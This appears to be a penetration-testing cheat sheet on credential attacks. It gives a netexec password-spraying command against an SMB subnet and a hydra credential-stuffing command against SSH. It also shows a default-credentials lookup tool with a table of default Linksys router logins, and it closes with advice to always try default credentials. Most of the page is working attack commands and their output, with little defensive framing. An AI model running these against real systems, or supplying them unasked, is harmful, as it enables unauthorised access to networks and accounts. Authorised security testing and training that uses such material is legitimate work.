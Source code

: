 ## Password Spraying 

```rb
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```

## Credential stuffing
[Credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing) is another type of brute-force attack in which an attacker uses stolen credentials from one service to attempt access on others. Since many users reuse their usernames and passwords

```rb
hydra -C user_pass.list ssh://10.100.38.23
```

`username:password`


## Default credentials

```rb
pip3 install defaultcreds-cheat-sheet
```

```rb
creds search linksys

+---------------+---------------+------------+
| Product       |    username   |  password  |
+---------------+---------------+------------+
| linksys       |    <blank>    |  <blank>   |
| linksys       |    <blank>    |   admin    |
| linksys       |    <blank>    | epicrouter |
| linksys       | Administrator |   admin    |
| linksys       |     admin     |  <blank>   |
| linksys       |     admin     |   admin    |
| linksys       |    comcast    |    1234    |
| linksys       |      root     |  orion99   |
| linksys       |      user     |  tivonpw   |
| linksys (ssh) |     admin     |   admin    |
| linksys (ssh) |     admin     |  password  |
| linksys (ssh) |    linksys    |  <blank>   |
| linksys (ssh) |      root     |   admin    |
+---------------+---------------+------------+
```


## NOTE

1. Always try default Creds.